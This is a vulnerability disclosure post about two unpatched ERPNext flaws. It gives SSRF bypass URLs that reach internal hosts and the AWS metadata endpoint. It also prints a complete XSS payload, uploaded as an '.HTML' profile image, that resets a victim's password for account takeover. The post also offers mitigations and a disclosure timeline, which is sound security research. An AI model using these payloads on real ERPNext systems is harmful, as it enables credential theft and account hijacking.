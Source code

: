 ```yaml
---
title: SSRF and Account Takeover via XSS in ERPNext
date: 2022-04-06
tags: [Security]
categories: [Security]
translator: huli
---
```


<!-- summary -->
[ERPNext](https://erpnext.com/) is a very popular open-source ERP(Enterprise Resource Planning) software built on [Frappe Framework](https://github.com/frappe/frappe).

Last December, we found two vulnerabilities in the latest version of ERPNext: SSRF(Server-Side Request Forgery) and account takeover via XSS. Both vulnerabilities require a low-privileged authenticated user to perform the attack.
<!-- summary -->

By exploiting SSRF, a malicious actor could steal the credentials from cloud metadata and may lead to RCE. For XSS, it's possible to take over others’ accounts.

We reported both vulnerabilities on November 25th, 2021. At the time of writing, there is still no fix for those two issues, so we decided to publish the details to inform the public about the risk.

<!-- more -->

## SSRF(Server-Side Request Forgery)

In ERPNext, the user with certain roles can import data from files or Google Sheets:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p1.png)

After data is imported, you can preview the content before saving it to the system.

Following is the function for importing data from Google Sheets:

``` py
def get_csv_content_from_google_sheets(url):
  # https://docs.google.com/spreadsheets/d/{sheetid}}/edit#gid={gid}
  validate_google_sheets_url(url)
  # get gid, defaults to first sheet
  if "gid=" in url:
    gid = url.rsplit('gid=', 1)[1]
  else:
    gid = 0
  # remove /edit path
  url = url.rsplit('/edit', 1)[0]
  # add /export path,
  url = url + '/export?format=csv&gid={0}'.format(gid)

  headers = {
    'Accept': 'text/csv'
  }
  response = requests.get(url, headers=headers)

  if response.ok:
    # if it returns html, it couldn't find the CSV content
    # because of invalid url or no access
    if response.text.strip().endswith('</html>'):
      frappe.throw(
        _('Google Sheets URL is invalid or not publicly accessible.'),
        title=_("Invalid URL")
      )
    return response.content
  elif response.status_code == 400:
    frappe.throw(_('Google Sheets URL must end with "gid={number}". Copy and paste the URL from the browser address bar and try again.'),
      title=_("Incorrect URL"))
  else:
    response.raise_for_status()
```

It's straightforward, just get the data from Google Sheets and check the format.

But, what if we provide a URL that looks like Google Sheet URL, but it's not?

The system only checks if the URL contains `docs.google.com/spreadsheets`:

``` py
def validate_google_sheets_url(url):
  if "docs.google.com/spreadsheets" not in url:
    frappe.throw(
      _('"{0}" is not a valid Google Sheets URL').format(url),
      title=_("Invalid URL"),
    )
```

So, we can provide a URL like this: `http://localhost:8080/#docs.google.com/spreadsheets`, then we can get the response from the internal network. It's a classic SSRF vulnerability.

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p2.png)

If the port is open, the response will be different:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p3.png)

Moreover, we can access sensitive information via cloud metadata if the server is hosted on a cloud service.

For example, frappe cloud is hosted on AWS, so we can get metadata in `http://169.254.169.254/latest/dynamic/instance-identity/document#docs.google.com/spreadsheets`:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p4.png)

If there is an IAM associated with the instance, we can also read its credentials and escalate to RCE, here is one example: [Escalating SSRF to RCE](https://sanderwind.medium.com/escalating-ssrf-to-rce-7c0147371c40).

### Mitigation

Before a new patched version release, we suggest that:

1. Be careful when you grant importing data permission to a user.
2. Keep ERPNext in an isolated environment.
3. Requires [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-options.html) for AWS instance.

## Account Takeover via XSS

Every user in the ERPNext system has a profile page, like the following:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p5.png)

Users can upload their profile images from devices:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p6.png)

When uploading files, the front-end will check the file name to ensure it's an image(.png, .jpg, and so on). But, the back-end has no such check, so we can upload an HTML file by intercepting the request and changing the file extension to `.html`.

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p7.png)

But unfortunately, we can't directly open the HTML file because of the `Content-Disposition` header:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p8.png)

Because of the header, the browser will download the HTML page instead of opening it.

After playing around with the feature for a while, we found that it can be bypassed by using the upper-case extension `.HTML`:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p9.png)

Now, we have an easy XSS. On the [security page](https://erpnext.com/security) of ERPNext, it clearly states that:

> Please Note: XSS and HTML Injections won't be accepted.

I think it's fine for some cases because pop-up an alert makes no harm, right? But what if we find a way to escalate it to another vulnerability with bigger impact?

Surprisingly, in ERPNext, the user doesn't need to input the old password to change to a new password:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p10.png)

So, we can write a script to automatically update the password for the victim user, like this:

``` html
<script>
  async function exploit(){
    // get user id from cookie
    const userId = document.cookie.match(/user_id=([^;]+)/)[1]
    console.log('user id:', userId)

    // get csrf token first
    const html = await fetch('/app').then(res => res.text())
    const token = html.match(/csrf_token = "(.+)";/)[1]
    console.log('csrf token:', token)

    // get user doc
    const json = await fetch('/api/method/frappe.desk.form.load.getdoc?doctype=User&name='+userId).then(res=>res.json())
    const docs = json.docs[0]
    console.log(docs)
    
    // just random strong password
    docs.new_password = 'WIofjg249hq@!32a'

    formBody = 'doc=' + encodeURIComponent(JSON.stringify(docs)) + '&action=Save'

    // update password
    const resp = await fetch('/api/method/frappe.desk.form.save.savedocs', {
      method: 'POST',
      headers: {
        'X-Frappe-Csrf-Token': token,
        'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
      },
      body: formBody
    });
    const result = await resp.json();
    console.log(result)
  }

  exploit()
</script>
```

When the victim user opens this page, their password will be updated.

So, as a malicious actor, I can upload the above content to the server, then send the URL to the admin. After the admin opens the page, I can take over his account because I know his password.

We successfully escalate from XSS to account takeover vulnerability.

### Mitigation

Before a new patched version release, we suggest that:

1. Be careful before opening any links hosted on ERPNext server, or using incognito mode to visit the link

## Conclusion

The latest version of ERPNext is vulnerable to both SSRF and XSS which can lead to account takeover. By exploiting SSRF, a malicious actor may read credentials from cloud metadata and escalate to RCE.

Both vulnerabilities require a low-privileged authenticated user to perform the attack.

There is no patch for the vulnerabilities at the time of writing. So we suggest that the user should be careful before the patch release. 

## Disclosure Timeline

`2021-11-25` Reported vulnerabilities via the [official form](https://erpnext.com/security)
`2021-12-15` Follow up, they said they are working on the fix
`2022-01-03` Follow up again, they said it's in the development phase
`2022-02-14` Follow up again, no response
`2022-02-23` 90 days since the initial report
`2022-03-10` Follow up again, no response
`2022-03-24` Ask for the updates, if there is no response we will publish the details in 14 days, no response
`2022-04-06` Public disclosure







